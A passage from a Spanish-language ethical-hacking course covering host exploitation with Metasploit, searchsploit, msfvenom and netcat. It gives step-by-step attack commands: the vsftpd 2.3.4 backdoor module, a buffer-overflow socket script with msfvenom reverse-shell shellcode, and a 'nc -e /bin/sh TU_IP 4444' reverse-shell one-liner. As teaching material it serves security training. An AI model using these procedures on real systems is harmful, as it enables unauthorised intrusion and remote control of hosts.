



| **Inicio**         | **atrás 5**                                 | **Siguiente 7**                                              |
| ------------------ | ------------------------------------------- | ------------------------------------------------------------ |
| [🏠](../README.md) | [⏪](./2_5_Analisis_de_Vulnerabilidades.md) | [⏩](./2_7_Explotacion_y_hacking_de_vulnerabilidades_web.md) |

---

## **Índice**

| Temario                                                                                                                                         |
| ----------------------------------------------------------------------------------------------------------------------------------------------- |
| [44. Introducción a la fase de Explotación de Vulnerabilidades](#44-introducción-a-la-fase-de-explotación-de-vulnerabilidades)                  |
| [45. Explotación de vulnerabilidades](#45-explotación-de-vulnerabilidades)                                                                      |
| [46. Explotación manual de vulnerabilidades en host](#46-explotación-manual-de-vulnerabilidades-en-host)                                        |
| [47. Ejercicio: Modifica el nuevo payload para que funcione](#47-ejercicio-modifica-el-nuevo-payload-para-que-funcione)                         |
| [48. Metasploit: Introducción](#48-metasploit-introducción)                                                                                     |
| [49. Metasploit: Explotación básica](#49-metasploit-explotación-básica)                                                                         |
| [50. Metasploit: Explotación avanzada](#50-metasploit-explotación-avanzada)                                                                     |
| [51. Msfvenom: Creación de payloads personalizados](#51-msfvenom-creación-de-payloads-personalizados)                                           |
| [52. Metasploit: Importando los resultados de Nessus](#52-metasploit-importando-los-resultados-de-nessus)                                       |
| [53. Armitage: Interfaz gráfica de Metasploit](#53-armitage-interfaz-gráfica-de-metasploit)                                                     |
| [54. Diferencias entre adaptador de red en modo Bridge, NAT y Host-Only](#54-diferencias-entre-adaptador-de-red-en-modo-bridge-nat-y-host-only) |

---

# **Explotacion y hacking de vulnerabilidades en hosts**

## **44. Introducción a la fase de Explotación de Vulnerabilidades**

### ¿Qué es la **explotación de vulnerabilidades**?

> La **explotación** es la fase en la que **se aprovechan fallas descubiertas** en sistemas o aplicaciones para **obtener acceso no autorizado, ejecutar código o controlar un sistema**.

---

✅ **En palabras simples**:

> Si en la fase anterior (análisis de vulnerabilidades) encontraste una “puerta mal cerrada”, en esta fase **la abres y entras**.
>
> Pero con fines **éticos y controlados**, para demostrar el impacto y ayudar a corregirla.

---

#### 🔁 Fases generales del hacking ético:

1. **Reconocimiento** – buscar información del objetivo
2. **Escaneo y análisis de vulnerabilidades**
3. **Explotación** ✅ ← estamos aquí
4. **Post-explotación** – mantener acceso
5. **Reporte y remediación**

---

### Ejemplo real fácil de entender

Supón que encuentras una **versión vulnerable de Apache** (CVE-2017-5638) que permite ejecutar comandos en el servidor.

✅ En la fase de explotación:

- Utilizas esa vulnerabilidad para **enviar un payload malicioso**.
- El sistema **ejecuta ese código** sin autorización.
- Obtienes acceso remoto (shell) al servidor.

> Es como decirle al servidor: “Haz esto”, ¡y él lo hace sin pedir permiso!

---

### ¿Esto es legal?

🚫 No se debe explotar vulnerabilidades **sin autorización**.

✅ Solo en entornos de pruebas, laboratorios o con permiso explícito.
Ejemplo: en **pruebas de penetración autorizadas (pentesting)** o entornos como TryHackMe o Hack The Box.

---

### Herramientas más usadas para explotación

Aquí tienes algunas muy conocidas:

| Herramienta       | ¿Para qué sirve?                                      |
| ----------------- | ----------------------------------------------------- |
| **Metasploit**    | Marco completo para explotación                       |
| **Exploit-DB**    | Base de datos de exploits (con código fuente)         |
| **MSFVenom**      | Crear payloads personalizados (shells reversas, etc.) |
| **Searchsploit**  | Buscar exploits locales desde Exploit-DB              |
| **Nmap NSE**      | Algunos scripts pueden explotar fallas conocidas      |
| **Python / Bash** | Muchos exploits son simples scripts                   |

---

### Cómo instalar herramientas de explotación

#### 📍 A. **Metasploit Framework** (la más usada)

#### 🧑‍💻 En Kali Linux (ya viene instalado):

```bash
msfconsole
```

#### 🐧 En Ubuntu / Debian:

```bash
sudo apt update
sudo apt install metasploit-framework
```

#### 🪟 En Windows (WSL recomendado):

1. Instala WSL + Ubuntu
2. Sigue pasos anteriores para Ubuntu

---

### 🎯 B. Instalar `searchsploit` (para buscar exploits en tu terminal)

```bash
sudo apt install exploitdb
```

👉 Usas:

```bash
searchsploit nombre_del_software
```

---

### 📦 C. Instalar Python (para ejecutar exploits en .py)

```bash
sudo apt install python3
```

---

### Ejemplo de explotación con Metasploit (muy fácil)

#### 🔎 Escenario:

Encontraste un sistema con **vsftpd 2.3.4**, que tiene una puerta trasera conocida.

---

#### ✅ Paso 1: Abrir Metasploit

```bash
msfconsole
```

---

#### ✅ Paso 2: Buscar el exploit

```bash
search vsftpd
```

✅ Resultado:

```bash
exploit/unix/ftp/vsftpd_234_backdoor
```

---

#### ✅ Paso 3: Usar el módulo

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

---

#### ✅ Paso 4: Ver opciones

```bash
show options
```

Verás que debes configurar `RHOSTS` (IP del objetivo).

---

#### ✅ Paso 5: Configurar la IP

```bash
set RHOSTS 192.168.1.10
```

---

#### ✅ Paso 6: Ejecutar el exploit

```bash
run
```

---

#### ✅ Resultado esperado:

Si el exploit es exitoso, tendrás acceso como usuario remoto (shell).
Podrás ejecutar comandos como:

```bash
whoami
ls
```

---

🧠 **¿Qué hiciste?**

- Usaste un exploit conocido.
- Metasploit envió un payload al servidor.
- La vulnerabilidad lo ejecutó.
- Ahora tienes control del sistema.

---

### Buenas prácticas

✅ Usa laboratorios como:

- [TryHackMe](https://tryhackme.com)
- [Hack The Box](https://www.hackthebox.com)

✅ Documenta todo:

- IP del objetivo
- CVE usado
- Herramienta utilizada
- Resultado
- Recomendación (parche, mitigación)

✅ Usa entornos virtuales (VirtualBox, VMWare) si vas a practicar.

✅ Asegúrate de **tener permiso** o hacerlo en entornos controlados.

---

### Riesgos y advertencias

⚠️ **Nunca explotes una vulnerabilidad en un sistema ajeno sin permiso.**

⚠️ Puedes causar inestabilidad o pérdida de datos.

⚠️ Usa siempre máquinas virtuales o labs diseñados para eso.

---

### Recomendaciones para aprender más

- Aprende sobre CVE y Exploit-DB: [https://www.exploit-db.com](https://www.exploit-db.com)

- Usa metasploitable2 como máquina vulnerable:

  👉 [https://sourceforge.net/projects/metasploitable/](https://sourceforge.net/projects/metasploitable/)

- Sigue rutas guiadas en TryHackMe:

  👉 Curso “Pre Security” o “Offensive Pentesting”

---

### Resumen rápido

| Concepto              | Explicación Fácil                                                                 |
| --------------------- | --------------------------------------------------------------------------------- |
| Explotación           | Aprovechar una falla para ejecutar acciones no autorizadas en un sistema          |
| Herramienta principal | Metasploit (marco para ejecutar exploits fácilmente)                              |
| Ejemplo clásico       | vsftpd 2.3.4 (exploit de backdoor)                                                |
| Requiere              | Vulnerabilidad conocida y activa, IP del objetivo, y un entorno seguro de pruebas |
| Precaución            | Nunca lo hagas sin permiso o fuera de un entorno controlado                       |

---

[🔼](#índice)

---

## **45. Explotación de vulnerabilidades**

### ¿Qué es la **explotación de vulnerabilidades**?

Es la fase en seguridad ofensiva (pentesting, hacking ético) en la que **aprovechamos fallas detectadas** para **obtener acceso no autorizado, ejecutar código o controlar un sistema**.

✅ Idea sencilla:

> En la fase anterior encontraste “una puerta mal cerrada”.
>
> En la explotación **entras por esa puerta**.

---

✅ **Objetivos éticos de la explotación:**

✔ Demostrar que la vulnerabilidad es real.

✔ Entender su impacto.

✔ Ayudar a corregirla.

✔ Cumplir requisitos de auditoría o pentest.

---

✅ ⚠️ **IMPORTANTE**

> Solo se hace con **permiso**.
>
> Hacerlo sin autorización es ilegal.

---

### Fases generales del hacking ético

Para ubicarte mejor:

1️⃣ **Reconocimiento** – buscar información (dominios, IPs, correos).

2️⃣ **Escaneo y análisis de vulnerabilidades** – descubrir fallas.

3️⃣ **Explotación** ✅ ← **ESTAMOS AQUÍ**

4️⃣ **Post-explotación** – mantener acceso, pivoting.

5️⃣ **Reporte y remediación** – documentar y corregir.

---

✅ La **explotación** es la **prueba práctica** de que la vulnerabilidad **se puede usar para un ataque real**.

---

### Ejemplo real MUY fácil

**Escenario:**

Descubriste que un servidor usa **vsftpd 2.3.4**.

✅ Vulnerabilidad conocida: **tiene un backdoor**.

---

**En explotación haces:**

✔ Usas un exploit conocido.

✔ Envías un payload malicioso.

✔ El servidor abre una shell para ti.

✅ Resultado:

```
¡Ya puedes escribir comandos como si fueras el dueño!
```

✅ Ejemplo de comandos:

```
whoami
ls
cat /etc/passwd
```

---

✅ En pentesting ético → documentas eso para que el cliente **parchee** el servicio.

---

### Herramientas comunes para explotación

| Herramienta       | ¿Para qué sirve?                                              |
| ----------------- | ------------------------------------------------------------- |
| **Metasploit**    | Marco completo para encontrar, configurar y ejecutar exploits |
| **Exploit-DB**    | Base de datos de exploits (con código)                        |
| **MSFVenom**      | Generador de payloads personalizados                          |
| **Searchsploit**  | Buscar exploits locales desde Exploit-DB                      |
| **Nmap NSE**      | Algunos scripts NSE pueden explotar vulnerabilidades          |
| **Python / Bash** | Muchos exploits son scripts simples                           |

---

### ¿Cómo se hace la explotación?

✅ Flujo típico:

1️⃣ Identificar la vulnerabilidad:

```
vsftpd 2.3.4
```

2️⃣ Buscar un exploit:

```
searchsploit vsftpd 2.3.4
```

3️⃣ Elegir herramienta para explotarla:

✔ Metasploit.

✔ Exploit manual en Python.

4️⃣ Configurar exploit: IP, puerto, payload.

5️⃣ Lanzar exploit.

6️⃣ Obtener acceso (shell).

7️⃣ Documentar todo.

---

### Cómo instalar herramientas de explotación

#### A) Metasploit

✅ En Kali Linux (ya viene):

```bash
msfconsole
```

✅ En Ubuntu/Debian:

```bash
sudo apt update
sudo apt install metasploit-framework
```

✅ Verifica:

```bash
msfconsole
```

---

✅ En Windows:

- Se recomienda usar **WSL (Windows Subsystem for Linux)**.
- Instala Ubuntu en WSL → sigue los mismos comandos.

---

#### B) Searchsploit

✅ Ubuntu/Debian:

```bash
sudo apt install exploitdb
```

✅ Uso:

```bash
searchsploit nombre_del_software
```

**Ejemplo:**

```bash
searchsploit vsftpd
```

---

#### C) Python

✅ En la mayoría de sistemas ya está instalado.

✅ Verifica:

```bash
python3 --version
```

✅ Instalar si no está:

```bash
sudo apt install python3
```

---

### Ejemplo práctico (con Metasploit)

✅ Vamos paso a paso:

---

#### 🔎 Escenario:

Encontraste:

✔ Servicio: vsftpd 2.3.4

✔ IP del servidor: **192.168.1.10**

✅ Sabes que tiene **backdoor** (CVE conocido).

---

#### ✅ PASO 1️⃣ Abrir Metasploit

```bash
msfconsole
```

Te saldrá algo como:

```
msf6 >
```

---

#### ✅ PASO 2️⃣ Buscar exploit

```bash
search vsftpd
```

✅ Verás algo como:

```
exploit/unix/ftp/vsftpd_234_backdoor
```

---

#### ✅ PASO 3️⃣ Usar exploit

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

Prompt cambia:

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) >
```

---

#### ✅ PASO 4️⃣ Ver opciones

```bash
show options
```

Verás:

```
RHOSTS => Target IP
RPORT => FTP port (default: 21)
```

---

#### ✅ PASO 5️⃣ Configurar el objetivo

```bash
set RHOSTS 192.168.1.10
```

---

#### ✅ PASO 6️⃣ Ejecutar el exploit

```bash
run
```

✅ Resultado esperado:

```
[*] Command shell session 1 opened
```

¡Ya tienes shell!

---

✅ Puedes escribir:

```
whoami
ls
pwd
```

✅ Es el **sistema remoto**.

---

✅ ¡Éxito! Lograste explotación.

---

#### ✅ 8️⃣ Otro ejemplo: Exploit manual en Python

✅ Exploit-DB tiene muchos scripts en Python.

✔ Descargas el script.

✔ Editas con la IP objetivo.

✔ Lo ejecutas:

```bash
python3 exploit.py
```

✅ Resultado → shell remota o ejecución de comandos.

---

✅ Muy usado para exploits **fuera de Metasploit**.

✔ Personalizable.

✔ Fácil de editar.

---

### ✅ 9️⃣ Precauciones importantes

⚠️ Explotar vulnerabilidades es **intrusivo**.

✅ Puede:

✔ Causar caídas de servicio.

✔ Corromper datos.

✔ Generar alertas de seguridad.

✅ Siempre:

✔ Usa **entornos controlados o labs**.

✔ Ten **permiso explícito**.

✔ Documenta lo que haces.

✔ Informa hallazgos para remediar.

---

✅ Ejemplos de lugares para practicar legalmente:

- **TryHackMe**
- **Hack The Box**
- Máquinas virtuales como **Metasploitable2**

---

### ✅ 10️⃣ Resumen muy fácil

✅ **Explotación = usar vulnerabilidad para tomar control o ejecutar código en el objetivo.**

✅ Es la **prueba práctica** de que un fallo es real y grave.

✅ Herramienta más usada: **Metasploit**.

✅ Flujo típico:

```
Identificar ➜ Buscar exploit ➜ Configurar ➜ Ejecutar ➜ Obtener acceso
```

✅ ¡Úsalo solo con permiso!

---

---

### ✅ 11️⃣ Bonus: Buenas prácticas

✅ Documenta:

✔ IP objetivo.

✔ Vulnerabilidad (CVE).

✔ Herramienta y exploit usados.

✔ Evidencia (capturas, logs).

✔ Recomendación (parche, mitigación).

✅ Agenda con tu cliente:

✔ Qué objetivos explotar.

✔ Cuándo hacerlo.

✔ Qué hacer si se logra acceso.

✅ Nunca olvides:

> El fin es **ayudar a proteger**, no atacar.

---

### ✅ 12️⃣ Enlaces súper útiles

✅ Metasploit Docs:

👉 [https://docs.metasploit.com](https://docs.metasploit.com)

✅ Exploit-DB:

👉 [https://www.exploit-db.com](https://www.exploit-db.com)

✅ TryHackMe (para practicar):

👉 [https://tryhackme.com](https://tryhackme.com)

✅ Hack The Box:

👉 [https://www.hackthebox.com](https://www.hackthebox.com)

---

[🔼](#índice)

---

## **46. Explotación manual de vulnerabilidades en host**

### ✅ 1️⃣ ¿Qué es la **explotación manual de vulnerabilidades en un host**?

> **Explotación manual** significa **no usar herramientas automáticas como Metasploit** que te dan todo listo.
>
> En vez de eso, **tú configuras y ejecutas el exploit paso a paso**.

✅ Es más flexible:

✔ Puedes modificar el exploit.

✔ Entiendes mejor cómo funciona.

✔ Puedes usar en sistemas donde los frameworks automáticos están bloqueados.

---

✅ **En palabras simples**:

> Si Metasploit es como “hacer clic en Exploit”,
>
> la explotación **manual** es **abrir el exploit, entenderlo, editarlo y ejecutarlo tú mismo**.

---

✅ **Ejemplo real (sencillo):**

> Tienes un script en Python para explotar un desbordamiento de búfer en un servicio vulnerable en el puerto 9999.
>
> - Editas el script con la IP del servidor.
> - Lo ejecutas.
> - Consigues una shell remota.

---

✅ ¿Por qué hacerlo?

✔ Aprendes cómo funciona de verdad el exploit.

✔ Puedes personalizar payloads.

✔ Mejor para escenarios donde no puedes usar Metasploit (ambientes restringidos).

---

### ✅ 2️⃣ Diferencias entre **Explotación Automática** y **Manual**

| Explotación Automática           | Explotación Manual               |
| -------------------------------- | -------------------------------- |
| Usa frameworks (Metasploit)      | Usas scripts o comandos directos |
| Muy fácil, casi sin pensar       | Necesita entender el exploit     |
| Todo pre-configurado             | Tú defines parámetros y payloads |
| Menos flexible para personalizar | Muy flexible para modificar      |

---

### ✅ 3️⃣ Flujo típico de explotación manual

✅ Pasos sencillos:

1️⃣ **Identificar la vulnerabilidad**

- Versión del servicio vulnerable
- CVE asociado

2️⃣ **Buscar el exploit**

- Exploit-DB, GitHub, Packet Storm

3️⃣ **Revisar el código del exploit**

- Entender qué hace
- Revisar parámetros (IP, puerto)

4️⃣ **Editar / personalizar**

- Cambiar IP/puerto objetivo
- Cambiar payload (reverse shell, bind shell)

5️⃣ **Ejecutar el exploit**

- Obtener acceso

6️⃣ **Interactuar con la shell**

- Ejecutar comandos en el host

---

✅ Ejemplo MUY fácil:

> Encontraste un exploit en Python para un servidor vulnerable en el puerto 1337.
>
> ✔ Editas el script → pones la IP del objetivo.
>
> ✔ Lo ejecutas → obtienes shell remota.

---

### ✅ 4️⃣ Herramientas comunes para explotación manual

✅ Python → para exploits en .py

✅ Netcat → para escuchar shells reversas

✅ Bash → para exploits en .sh

✅ GCC → para compilar exploits en C

✅ Exploit-DB → para conseguir exploits públicos

---

✅ 🔎 Exploit-DB:

👉 [https://www.exploit-db.com](https://www.exploit-db.com)

✅ 🔎 Packet Storm:

👉 [https://packetstormsecurity.com](https://packetstormsecurity.com)

---

### ✅ 5️⃣ Cómo instalar las herramientas necesarias

#### ✅ A) Python 3

En la mayoría de sistemas ya viene.

✅ Verificar:

```bash
python3 --version
```

✅ Instalar en Ubuntu/Debian:

```bash
sudo apt update
sudo apt install python3
```

---

#### ✅ B) Netcat

✅ Ubuntu/Debian:

```bash
sudo apt install netcat
```

✅ Verificar:

```bash
nc -h
```

✅ Windows:

- Usar ncat (de Nmap).
- Usar PowerShell para listener.

---

#### ✅ C) GCC (para compilar C)

✅ Ubuntu/Debian:

```bash
sudo apt install build-essential
```

✅ Verificar:

```bash
gcc --version
```

---

### ✅ 6️⃣ Ejemplo práctico COMPLETO (real y fácil)

✅ Vamos a hacerlo paso a paso como si tú mismo lo hicieras.

---

#### ⚡ Escenario:

✔ Tienes un **servidor vulnerable** en 192.168.1.10.

✔ Servicio vulnerable: **vulnserver** en puerto 9999.

✔ Exploit público en Python disponible en Exploit-DB.

---

✅ Objetivo:

> Usar ese exploit manualmente para conseguir **una reverse shell** en tu máquina.

---

#### ✅ PASO 1️⃣ Descargar el exploit

✅ Desde Exploit-DB:

- Descargas el .py o copias el código.

✅ Ejemplo muy simplificado del contenido:

```python
import socket

ip = "192.168.1.10"
port = 9999
payload = b"A" * 1000

s = socket.socket()
s.connect((ip, port))
s.send(payload)
s.close()
```

---

✅ Es un **boilerplate**: envía 1000 'A' → causa crash o ejecución de código.

---

#### ✅ PASO 2️⃣ Entender el exploit

✅ Abre el archivo:

```bash
nano exploit.py
```

✅ Verás:

- ip
- puerto
- payload

✅ Es importante **leer** para saber qué hace:

> Enviar payload al puerto vulnerable.

---

#### ✅ PASO 3️⃣ Personalizar IP del objetivo

✅ Edita:

```python
ip = "192.168.1.10"
```

✅ Puedes ajustar el payload si quieres (más avanzado):

```python
payload = b"A" * 2000
```

o meter shellcode.

---

#### ✅ PASO 4️⃣ Elegir payload real

✅ Puedes generar **shellcode** con msfvenom:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=TU_IP LPORT=4444 -f python
```

✅ Salida:

```python
buf =  b""
buf += b"\xdb\xc3\xd9\x74\x24..."
```

✅ Pones ese **buf** en lugar de los 'A' del payload.

---

✅ Resultado:

```python
payload = buf
```

---

#### ✅ PASO 5️⃣ Configurar Listener (Netcat)

✅ En tu máquina:

```bash
nc -lvnp 4444
```

✅ Está esperando la conexión reversa.

---

#### ✅ PASO 6️⃣ Ejecutar exploit

✅ En la máquina atacante:

```bash
python3 exploit.py
```

✅ Resultado esperado:

```
connection to 192.168.1.10 port 9999
sending payload
```

✅ En Netcat:

```
connect from 192.168.1.10
Microsoft Windows [Version...]
C:\>
```

✔ ¡Ya tienes SHELL!

---

### ✅ 7️⃣ Otro ejemplo: Exploit en C

✅ Descargaste exploit.c desde Exploit-DB.

---

#### ✅ A) Compilarlo

```bash
gcc exploit.c -o exploit
```

---

#### ✅ B) Ejecutarlo

```bash
./exploit 192.168.1.10 9999
```

---

✅ Resultado:

✔ Se conecta al objetivo.

✔ Envía payload.

✔ Ejecuta shellcode.

✔ Consigues shell.

---

### 🌟 ✅ 8️⃣ Ejemplo ultra simple con Netcat

✅ Si el servicio es MUY vulnerable y acepta comandos directamente:

```bash
echo "nc -e /bin/sh TU_IP 4444" | nc 192.168.1.10 1337
```

✅ En tu máquina:

```bash
nc -lvnp 4444
```

✅ Resultado:

```
Shell conectada
```

---

### ✅ 9️⃣ Consejos prácticos

✅ Lee el exploit antes de ejecutarlo.

✅ Edita bien la IP, puerto y payload.

✅ Usa máquinas virtuales o labs.

✅ Verifica tu listener está activo antes de lanzar.

✅ Documenta:

✔ Exploit usado.

✔ IP objetivo.

✔ Resultado.

✔ Recomendación (parche, mitigación).

---

### ✅ 10️⃣ Precauciones éticas

⚠️ **IMPORTANTE:**

✅ Solo haz explotación en:

✔ Sistemas de pruebas.

✔ Laboratorios.

✔ Con permiso explícito.

🚫 NUNCA en sistemas ajenos sin autorización.

✅ Es ilegal → hackeo criminal.

---

### ✅ 11️⃣ Resumen MUY fácil

✅ Explotación manual = tú configuras y ejecutas el exploit.

✅ Usas scripts en Python, C, Bash.

✅ Herramientas clave:

✔ Python

✔ Netcat

✔ GCC

✅ Proceso:

```
1. Buscar exploit
2. Editar (IP, puerto, payload)
3. Compilar (si es C)
4. Preparar listener
5. Ejecutar
6. Obtener shell
```

✅ Resultado: acceso no autorizado (con fines éticos y de prueba).

---

### ✅ 12️⃣ Enlaces útiles

✅ Exploit-DB:

👉 [https://www.exploit-db.com](https://www.exploit-db.com)

✅ Packet Storm:

👉 [https://packetstormsecurity.com](https://packetstormsecurity.com)

✅ Netcat manual:

👉 [https://linux.die.net/man/1/nc](https://linux.die.net/man/1/nc)

✅ TryHackMe (para practicar):

👉 [https://tryhackme.com](https://tryhackme.com)

---

[🔼](#índice)

---

## **47. Ejercicio: Modifica el nuevo payload para que funcione**

### ¿Qué significa “modificar un payload”?

> Un **payload** es el código que se ejecuta en el sistema víctima cuando una vulnerabilidad es explotada.
>
> Modificarlo significa:

- Cambiar la **IP y puerto del atacante**.
- Adaptarlo al tipo de sistema (Linux, Windows, etc.).
- A veces cambiar su **formato o codificación**.
- O reemplazar un payload de prueba (como 1000 “A”) por uno real (como una reverse shell).

---

#### ✅ Escenario fácil de entender:

Tienes un **exploit en Python**, que explota una vulnerabilidad en un servidor.
El exploit envía un payload, pero **solo lanza caracteres "A"** (de prueba).

🧪 Tu tarea es **reemplazar ese payload por uno real** que, por ejemplo, te dé una **reverse shell**.

---

### 🛠️ Herramientas necesarias

- 🐍 Python (para ejecutar y modificar el script)
- 🧰 `msfvenom` (para generar el payload real)
- 🔊 `netcat` (para recibir la shell)

---

#### ✅ Paso 1: Ver el exploit base (ejemplo real en Python)

```python
import socket

ip = "192.168.1.10"
port = 9999
payload = b"A" * 1000  # Payload de prueba (a modificar)

s = socket.socket()
s.connect((ip, port))
s.send(payload)
s.close()
```

### 📌 Problema: Este payload solo hace un desbordamiento.

### ✅ Objetivo: Cambiarlo por **una reverse shell real**.

---

#### ✅ Paso 2: Generar un nuevo payload con `msfvenom`

Usaremos **msfvenom** para generar una **reverse shell en Python**.

---

##### 🧪 Ejemplo para sistema **Windows**:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=TU_IP LPORT=4444 -f python -b "\x00"
```

- `LHOST`: Tu IP (donde escuchará la shell).
- `LPORT`: Puerto a escuchar.
- `-b "\x00"`: Evita bytes nulos (malos para muchos servicios).
- `-f python`: Genera salida en formato Python.

---

✅ Salida esperada:

```python
buf =  b""
buf += b"\xdb\xc3\xd9\x74\x24\xf4\xb8\x6d..."  # Shellcode real
```

---

#### ✅ Paso 3: Reemplazar el payload en el script

Tu script ahora queda así:

```python
import socket

ip = "192.168.1.10"
port = 9999

# Payload generado con msfvenom
payload =  b""
payload += b"\xdb\xc3\xd9\x74\x24\xf4\xb8\x6d\x13\x01..."
# <- aquí va el shellcode completo generado

s = socket.socket()
s.connect((ip, port))
s.send(payload)
s.close()
```

---

#### ✅ Paso 4: Abrir tu listener (Netcat)

Antes de ejecutar el script, debes estar **esperando la conexión**.

```bash
nc -lvnp 4444
```

📌 Este comando crea un listener en el puerto 4444.

🧠 Espera que la víctima (el exploit) conecte hacia ti.

---

#### ✅ Paso 5: Ejecutar el exploit

```bash
python3 exploit.py
```

✅ Si el exploit funciona, en tu terminal con Netcat verás algo como:

```
connect from 192.168.1.10
Microsoft Windows [Version...]
C:\>
```

🎉 ¡Has conseguido una **reverse shell** real!

---

### 📌 Ejemplo completo (resumen del script)

```python
import socket

ip = "192.168.1.10"
port = 9999

# Payload generado con msfvenom
payload =  b""
payload += b"\xdb\xc3\xd9\x74\x24\xf4\xb8\x6d\x13\x01\x00..."

s = socket.socket()
s.connect((ip, port))
s.send(payload)
s.close()
```

---

### ⚠️ Recomendaciones importantes

✅ Siempre usa entornos **controlados** como:

- Máquinas virtuales (Metasploitable, DVWA, Vulnserver)
- Plataformas como **TryHackMe** o **Hack The Box**

✅ Asegúrate que:

- El exploit es para la **arquitectura correcta** (Windows/Linux)
- El payload está **formateado bien** y no contiene **bytes malos**
- Tu listener esté abierto **antes de ejecutar**

---

### ✅ ¿Y si el exploit usa un formato diferente?

Algunos exploits no usan `socket.send(payload)`.
En ese caso, busca en el código cómo se envía el payload y **reemplaza la variable correspondiente**.

---

### ✅ ¿Cómo saber si el payload está mal?

- El exploit se ejecuta pero no pasa nada → revisa el **listener y firewall**
- El sistema objetivo se cuelga → el **payload es muy grande** o malformado
- Sale error de encoding → tu exploit espera texto, pero le diste bytes → usa `.decode()` si es necesario

---

### ✅ Alternativas al payload reverse shell

- `windows/exec CMD=calc.exe`: abre calculadora (útil para pruebas)
- `linux/x86/shell_reverse_tcp`: para sistemas Linux

---

### 🧠 En resumen:

| Paso                  | Acción                                                   |
| --------------------- | -------------------------------------------------------- |
| 1. Exploit base       | Tiene payload falso (ej. "A" \* 1000)                    |
| 2. Generar shellcode  | Usas `msfvenom` con tu IP y puerto                       |
| 3. Reemplazar payload | Pegas el shellcode generado en el script                 |
| 4. Abrir listener     | Con `nc -lvnp <puerto>` esperas la shell                 |
| 5. Ejecutar exploit   | Ejecutas el script y esperas recibir la conexión inversa |

---

[🔼](#índice)

---

## **48. Metasploit: Introducción**

### 🎯 **1️⃣ ¿Qué es Metasploit?**

Metasploit es **una plataforma o framework para pruebas de penetración (pentesting)**.

✅ Te permite:

- Buscar vulnerabilidades conocidas.
- Usar exploits para aprovecharlas.
- Generar payloads (código malicioso).
- Obtener acceso remoto (shells).
- Automatizar ataques y pruebas.
- Hacer post-explotación (mantener acceso, recolectar datos).

---

✅ En palabras sencillas:

> Es como una **caja de herramientas para hackers éticos**.
>
> Tú eliges qué herramienta usar (exploit), con qué forma (payload), y a quién atacar (target).

---

✅ 🧪 **Ejemplo MUY simple:**

- Encuentras un servidor con **vsftpd 2.3.4** (versión vulnerable).
- Metasploit tiene un **exploit listo** para eso.
- Solo configuras la IP → ejecutas → y te da una shell remota.

---

---

### **2️⃣ ¿Para qué se usa Metasploit?**

✅ Principales usos:

✔ Encontrar exploits adecuados para un objetivo.

✔ Ejecutar exploits automáticamente.

✔ Crear payloads personalizados.

✔ Generar shells reversas o meterpreter.

✔ Escalar privilegios.

✔ Hacer post-explotación.

---

✅ **En pentesting profesional**:

Metasploit se usa para **demostrar el impacto real** de vulnerabilidades.

> "Si no parchean este servicio, un atacante podría tener control total."

---

### **3️⃣ Componentes de Metasploit (explicados fácil)**

✅ **Exploit**

> Código que aprovecha la vulnerabilidad.
>
> 🧩 Ejemplo: exploit para vsftpd 2.3.4.

✅ **Payload**

> Lo que se envía para ejecutar en la víctima.
>
> 🧩 Ejemplo: reverse shell.

✅ **Listener**

> La parte del atacante que espera la conexión.
>
> 🧩 Ejemplo: netcat escuchando el puerto.

✅ **Meterpreter**

> Una shell avanzada con muchos comandos para post-explotación.

✅ **Auxiliary**

> Módulos que no explotan, pero ayudan.
>
> 🧩 Ejemplo: escáner de puertos, brute force.

✅ **Post**

> Herramientas para después de explotar.
>
> 🧩 Ejemplo: descargar archivos, obtener contraseñas.

✅ **Encoder**

> Cambia la forma del payload para evitar antivirus.

✅ **msfvenom**

